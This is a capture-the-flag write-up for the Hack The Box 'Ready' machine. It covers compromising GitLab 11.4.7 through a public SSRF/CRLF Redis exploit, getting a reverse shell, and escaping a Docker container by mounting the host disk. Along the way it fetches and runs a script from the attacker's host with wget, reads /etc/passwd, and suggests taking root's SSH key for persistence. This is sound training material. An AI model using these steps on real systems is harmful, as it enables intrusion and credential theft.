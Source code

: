 # Writeup for [Ready](https://www.hackthebox.eu/home/machines/profile/304) from [Hack The Box](https://www.hackthebox.eu/)

## Table of Contents

<!-- MarkdownTOC -->

- [Machine Information](#machine-information)
- [Information Gathering and Enumeration](#information-gathering-and-enumeration)
- [Exploitation](#exploitation)
- [Privilege Escalation](#privilege-escalation)
	- [Git User to Docker Root](#git-user-to-docker-root)
	- [Docker Root to Real Root](#docker-root-to-real-root)

<!-- /MarkdownTOC -->


## Machine Information
* OS		 : Linux
* Difficulty : Medium
* Points	 : 30
* Release	 : 12 Dec 2020
* IP		 : 10.10.10.220

## Information Gathering and Enumeration

As usual, we're going to start with a simple nmap scan.
```bash
nmap -sCV -oN nmap/initial -v 10.10.10.220
```
We see only 2 ports open, SSH on port 22 and HTTP on port 5080.

![nmap-results](./img/nmap-results.png)

I also ran an all port scan with nmap to see any hidden services on the box, but it doesn't show any other services other than these two.

Navigating to the HTTP service, we are greeted with a Gitlab instance.

Poking around I found a way to potentially enumerate the version by navigating to the **help** page.

![gitlab-help](./img/gitlab-help.png)

Then going to `Check The Current Instance` link

![gitlab-help2](./img/gitlab-help2.png)

But this request timed out and I was left with nothing. But remember we did saw a **Register** option on the front page.

Let's try creating a random user. I used `test123` as the user and `password` as the password.

![create-user](./img/create-user.png)

We get in, and clicking the profile icon on the top right, we can navigate to the **help** page once more.

![help.png](./img/help.png)

Here we can see the Gitlab version which is `11.4.7`.

![gitlab-version](./img/gitlab-version.png)

Now that we know the version of the software, let's start searching for public exploits using `searchsploit`.

```bash
searchsploit gitlab
```

We see that this version has an RCE ( Remote Code Execution ) exploit.

![searchsploit](./img/searchsploit.png)

```bash
searchsploit -m ruby/webapps/49334.py && mv 49334.py rce.py
```

## Exploitation

Reading through the source code, I had no idea how this thing worked until I found this [blog post](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/) by [LiveOverflow](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w) ( **Some really cool stuff in this exploit** )

Basically, this script exploits an SSRF ( Server Side Request Forgery ) vulnerability to send a server side request to `Redis` which is an in-memory data structure store, used as a database, cache, and message broker. But redis has counter-measures againts this attack and made sure that HTTP requests can't be parsed in the Redis command prompt.

Redis will automatically terminate the connection if it sees a `Host:` entry, so the exploit utilizes `CRLF` injection to separate the payload and the `Host:` entry of an HTTP request. By doing this, we can execute commands via Redis before the connection gets terminated.

Now that we know how this exploit roughly works, let's run the script with `-h` flag and fill out all the flags required.

```bash
python rce.py -h
```
Running the script with the required flags, we should get a connection back from our listener.

![revshell](./img/revshell.png)

Here I started to search for users by catting `/etc/passwd` and it seems there is a `dude` user.

```bash
git@gitlab:~/gitlab-rails/working$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
...[snipped]...
git:x:998:998::/var/opt/gitlab:/bin/sh
gitlab-www:x:999:999::/var/opt/gitlab/nginx:/bin/false
gitlab-redis:x:997:997::/var/opt/gitlab/redis:/bin/false
gitlab-psql:x:996:996::/var/opt/gitlab/postgresql:/bin/sh
mattermost:x:994:994::/var/opt/gitlab/mattermost:/bin/sh
registry:x:993:993::/var/opt/gitlab/registry:/bin/sh
gitlab-prometheus:x:992:992::/var/opt/gitlab/prometheus:/bin/sh
gitlab-consul:x:991:991::/var/opt/gitlab/consul:/bin/sh
dude:x:1000:1000::/home/dude:/bin/bash
```

Checking his home directory we can read `user.txt`.

![user](./img/user.png)

## Privilege Escalation

### Git User to Docker Root

I always start with low hanging fruit, so let's check for `sudo` privileges for our current user.

```bash
sudo -l
```

Running `sudo`, it says that sudo was not found. I find this super weird, because even Arch Linux will usually have sudo preinstalled when installing the `base-devel` package. So I started suspecting that this maybe a **docker container**

Running `ls -al` on `/`, we see a `.dockerenv` file that indicates that we are inside a container. Having root on a container might be nice and we see a `root_pass` file. This might be a password for the root user and I tried logging in with `su -`, but that doesn't seem to work. Tried with the `dude` user as well. Didn't work.

![su-fail.png](./img/su-fail.png)

So I tried running `linpeas` in the background while I do some googling on docker escapes.

Setup a webserver with `python` on the directory where linpeas is located.

```bash
python3 -m http.server
```

Use `wget` to retrieve the file.

```bash
cd /tmp && wget http://10.10.16.6:8000/linpeas.sh && ./linpeas.sh
```

Linpeas also confirms that we are inside a docker container.

![linpeas-docker](./img/linpeas-docker.png)

We see a lot of potential files to go through.

We see that linpeas also dumps the password hashes for the gitlab accounts. Usually I would try to crack the admin's password but I was lazy so I skipped it.

But there is an entry below the dumped gitlab database that might also be a potential password.

![linpeas-password.png](./img/linpeas-password.png)

Reading that file and grepping for the term 'password', we see that all other entries are commented out with `#` and only one was not commented out.

![pass-source.png](./img/pass-source.png)

We are able to switch user to root using this password.

![switch.png](./img/switch.png)

### Docker Root to Real Root 

Now that we're root on the docker, I saw this [post](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout#i-own-root) from hacktricks.

Based on that, we can simply found out which device is the mounted physical drive, and mount that to our container.

Running `fdisk -l`, we can see that the physical drive is located at `/dev/sda2`.

![fdisk.png](./img/fdisk.png)

Now we can just mount that device to the container.

```bash
mkdir -p /mnt/letsgo && mount /dev/sda2 /mnt/letsgo
```

We now have the whole filesystem in `/mnt/letsgo` and we have root access to that filesystem

![root.png](./img/root.png)

If you would like some persistance, root has a private SSH key, so we can just copy it to our local box and SSH in as root.

![persistance.png](./img/persistance.png)
